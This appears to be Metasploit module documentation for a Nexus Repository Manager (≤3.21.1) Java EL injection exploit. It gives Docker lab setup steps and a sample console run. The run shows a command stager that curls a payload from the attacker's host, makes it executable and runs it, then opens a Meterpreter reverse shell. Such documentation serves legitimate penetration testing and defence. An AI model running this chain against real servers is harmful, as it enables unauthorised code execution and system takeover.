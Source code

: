 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the Nexus user.

This is a post-authentication vulnerability, so credentials are required
to exploit the bug. Any user regardless of privilege level may be used.

Tested against 3.21.1-01.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

#### Starting the application

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

Open a browser and go to <http://localhost:8081/>. If you're greeted by
the Nexus page, then the application has started successfully.

#### Changing the admin user's password

Run `docker exec nexus cat /nexus-data/admin.password` to get the admin
password. Sign in as the `admin` user with the password you just
retrieved.

Follow the prompts in the wizard. Change the password to something you
can remember. You can click through the anonymous access question, since
it's not relevant to the exploit. You don't need to enable the feature.

If you have trouble getting the password change to stick, wait a couple
minutes or browse to <http://localhost:8081/#user/account> and change it
again.

#### Adding an unprivileged user

1. Browse to <http://localhost:8081/#admin/security/users>
2. Click `Create local user` on the current page
3. Fill in all the required fields
  * You can set a fake e-mail address like `user@example.com`
  * Make sure you set a password you can remember, since you'll be using
    it to test the module
  * It is **critical** that you set the `Status` field to `Active` and
    move the `nx-anonymous` role to the `Granted` column
4. Click `Create local user` on the current page
5. Sign out the `admin` account and test your new login

After completing these steps, you may now test the module.

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > options

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Nexus password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8081             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Nexus username
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nexus Repository Manager <= 3.21.1


msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Executing command stager for linux/x64/meterpreter_reverse_tcp
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

